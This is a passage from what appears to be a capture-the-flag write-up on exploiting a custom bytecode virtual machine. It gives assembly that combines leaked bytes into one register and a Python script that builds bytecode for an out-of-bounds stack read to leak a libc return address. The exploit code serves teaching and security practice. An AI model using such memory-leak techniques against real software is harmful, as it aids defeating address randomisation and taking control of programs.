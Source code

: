 As a result, our `r0` - `r7` would just contain the leak value itself.

Next, notice that each 8-bit value of the 64-bit value that we want to leak ends up
in different registers. We could concatenate these registers into a single
register like this

```text
xor r8, r8, r8
shl r8, r8, 0x8
add r8, r8, r7
shl r8, r8, 0x8
add r8, r8, r6
shl r8, r8, 0x8
add r8, r8, r5
shl r8, r8, 0x8
add r8, r8, r4
shl r8, r8, 0x8
add r8, r8, r3
shl r8, r8, 0x8
add r8, r8, r2
shl r8, r8, 0x8
add r8, r8, r1
```

Now, `r8` is exactly the value that we want to leak. One last caveat is that
we changed `r0` which means that we need to carefully crafts our bytecode such
that it continues execution as expected. Since size of bytecode requires to
setup from `r1` to `r255` is already larger than `0x100` and our `r0` might end
up somewhere in between `0x00` and `0xff`, we need this setup code to be located
above `0x100`, e.g., at offset `0x400`. And to reach this piece of code, we
would need to use `vm_set_r0` to set our `r0` accordingly. Finally, we would
want to continue writing our code at `r0 + 4` after the shuffle has happened.

```py
# $ pwn libcdb file ./libc.so.6
__libc_start_main_ret = 0x24083

bytecode = b""
# jump to insn @ 0x400 to leak libc
bytecode += VM_SET_R0(0x10, 0x400)

bytecode = bytecode.ljust((__libc_start_main_ret & 0xff) + 4, b"\x00")

# bytecode continuation after executing vm_rearrange_regs
bytecode += VM_EXIT()

# bytecode to leak libc
bytecode = bytecode.ljust(0x400, b"\x00")
# sets each registers value to its own index value
for i in range(1, 256):
    bytecode += VM_SET_R_16(i, i)
# oob read @ bytecode[0x8010] == __libc_start_main_ret
# set r10 = 0x8010
bytecode += VM_SET_R_16(0x10, 0x8010)
# __libc_start_main_ret bytes goes into r0, r1, r2, r3, r4, r5, r6
# __libc_start_main_ret is 0x24083, so r0 changes to 0x83 and after shuffle
# the next instruction to be executed is at 0x83 + 0x4 = 0x87
bytecode += VM_SHUFFLE_REGS(6, 0x10, 0)
```
